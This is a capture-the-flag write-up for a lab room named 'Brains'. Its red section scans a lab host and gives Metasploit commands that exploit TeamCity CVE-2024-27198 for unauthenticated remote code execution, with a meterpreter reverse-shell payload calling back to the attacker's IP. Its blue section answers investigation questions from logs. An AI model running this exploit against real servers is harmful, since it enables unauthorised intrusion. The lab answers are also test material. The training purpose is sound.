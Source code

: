 # Brains

### Red: Exploit the Server!
- What is the content of flag.txt in the user's home folder?<br />
Initial nmap scan shows port 22,80 and 50000 open:

      # Nmap 7.94SVN scan initiated Thu Oct 24 13:25:08 2024 as: /usr/lib/nmap/nmap --privileged -p22,80,50000 -sV -sC -oN scan 10.10.255.64
      Nmap scan report for 10.10.255.64
      Host is up (0.049s latency).
      
      PORT      STATE SERVICE  VERSION
      22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   3072 27:e9:31:1b:37:ff:f4:a6:28:12:b2:42:38:04:d9:02 (RSA)
      |   256 c7:92:82:3a:64:b7:97:51:4b:55:f1:03:1e:bf:71:a4 (ECDSA)
      |_  256 15:01:a2:88:de:0d:81:c5:62:ea:d9:e2:89:e7:96:02 (ED25519)
      80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
      |_http-title: Maintenance
      |_http-server-header: Apache/2.4.41 (Ubuntu)
      50000/tcp open  ibm-db2?
      | fingerprint-strings: 
      |   GetRequest: 
      |     HTTP/1.1 503 
      |     TeamCity-Node-Id: MAIN_SERVER
      |     Pragma: no-cache
      |     Expires: Thu, 01 Jan 1970 00:00:00 GMT
      |     Cache-Control: no-cache
      |     Cache-Control: no-store
      |     Set-Cookie: TCSESSIONID=269C95301AE7386AEC7E1239DFF521E9; Path=/; HttpOnly
      |     Content-Type: text/html;charset=UTF-8
      |     Date: Thu, 24 Oct 2024 11:25:29 GMT
      |     Connection: close
      |     <!--
      |     Page: maintenance-welcome
      |     Stage: APPLICATION_STARTING
      |     State revision: 26
      |     Timestamp: Thu Oct 24 11:25:29 UTC 2024
      |     [Stage description: Initializing TeamCity server components]
      |     <!DOCTYPE html>
      |     <html>
      |     <head>
      |     <title>TeamCity Maintenance &mdash; TeamCity</title>
      |     <link rel="shortcut icon" href="/favicon.ico" type="image/x-icon"/>
      |     <meta http-equiv="content-type" content="text/html; charset=UTF-8"/>
      |     <meta name="application-name" content="TeamCity"/>
      |     <meta name="description" content="Powerful Continuous Integration and Build Server"/>
      |     <link href="
      |   ibm-db2, ibm-db2-das: 
      |     HTTP/1.1 400 
      |     Content-Type: text/html;charset=utf-8
      |     Content-Language: en
      |     Content-Length: 435
      |     Date: Thu, 24 Oct 2024 11:25:29 GMT
      |     Connection: close
      |     <!doctype html><html lang="en"><head><title>HTTP Status 400 
      |     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
      |_    Request</h1></body></html>
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port50000-TCP:V=7.94SVN%I=7%D=10/24%Time=671A2EA9%P=x86_64-pc-linux-gnu
      SF:%r(GetRequest,BFD,"HTTP/1\.1\x20503\x20\r\nTeamCity-Node-Id:\x20MAIN_SE
      SF:RVER\r\nPragma:\x20no-cache\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2
      SF:000:00:00\x20GMT\r\nCache-Control:\x20no-cache\r\nCache-Control:\x20no-
      SF:store\r\nSet-Cookie:\x20TCSESSIONID=269C95301AE7386AEC7E1239DFF521E9;\x
      SF:20Path=/;\x20HttpOnly\r\nContent-Type:\x20text/html;charset=UTF-8\r\nDa
      SF:te:\x20Thu,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20c
      SF:lose\r\n\r\n\n\n<!--\nPage:\x20maintenance-welcome\nStage:\x20APPLICATI
      SF:ON_STARTING\nState\x20revision:\x2026\nTimestamp:\x20Thu\x20Oct\x2024\x
      SF:2011:25:29\x20UTC\x202024\n\[Stage\x20description:\x20Initializing\x20T
      SF:eamCity\x20server\x20components\]\n-->\n\n\n\n\n\n<!DOCTYPE\x20html>\n<
      SF:html>\n\n<head>\n\n\x20\x20<title>TeamCity\x20Maintenance\x20&mdash;\x2
      SF:0TeamCity</title>\n\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20href=\"
      SF:/favicon\.ico\"\x20type=\"image/x-icon\"/>\n\x20\x20<meta\x20http-equiv
      SF:=\"content-type\"\x20content=\"text/html;\x20charset=UTF-8\"/>\n\x20\x2
      SF:0<meta\x20name=\"application-name\"\x20content=\"TeamCity\"/>\n\x20\x20
      SF:<meta\x20name=\"description\"\x20content=\"Powerful\x20Continuous\x20In
      SF:tegration\x20and\x20Build\x20Server\"/>\n\x20\x20<link\x20href=\"")%r(i
      SF:bm-db2-das,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;char
      SF:set=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\r\nDate:
      SF:\x20Thu,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20clos
      SF:e\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20St
      SF:atus\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20type=\"t
      SF:ext/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\
      SF:x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x20{font-s
      SF:ize:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x
      SF:20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;bac
      SF:kground-color:#525D76;border:none;}</style></head><body><h1>HTTP\x20Sta
      SF:tus\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>")%r(ibm
      SF:-db2,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;charset=ut
      SF:f-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\r\nDate:\x20Th
      SF:u,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20close\r\n\
      SF:r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20Status\x
      SF:20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20type=\"text/cs
      SF:s\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,
      SF:\x20b\x20{color:white;background-color:#525D76;}\x20h1\x20{font-size:22
      SF:px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{fon
      SF:t-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;backgroun
      SF:d-color:#525D76;border:none;}</style></head><body><h1>HTTP\x20Status\x2
      SF:0400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Port 80 is under mantainance. Port 50000 shows a teamcity login page.<br />
![image](https://github.com/user-attachments/assets/08916bae-3ac0-4d0d-bf2b-c42b11b5f21b)<br />
Teamcity is a CI/CD (continuous integration/delivery) server that supports code creation, testing and realease. Searching online for this version, I found out that it is vulnerable to anauthenticated RCE and that there'a metasploit module available. Here's the msfconsole commands to use: 

    use multi/http/jetbrains_teamcity_rce_cve_2024_27198
    set target 3
    set payload cmd/linux/http/x64/meterpreter/reverse_tcp
    set rhosts 10.10.255.64
    set rport 50000
    set fetch_writable_dir /tmp
    set set lhost YOUR_IP
    run
![image](https://github.com/user-attachments/assets/5779c2bb-663c-4745-a848-fba55a520139)<br />


### Blue: Let's Investigate
- What is the name of the backdoor user which was created on the server after exploitation?<br />
![image](https://github.com/user-attachments/assets/0409b302-854f-4c39-a119-098649d0a753)<br />
`eviluser`
- What is the name of the malicious-looking package installed on the server?<br />
![image](https://github.com/user-attachments/assets/90f94f9b-6d74-409a-873d-77ec69b9ded3)<br />
`datacollector`
- What is the name of the plugin installed on the server after successful exploitation?<br />
Search `index=weblogs`
![image](https://github.com/user-attachments/assets/fdbed84c-5da2-47df-99d0-2542edcb6263)<br />
`AyzzbuXY.zip`

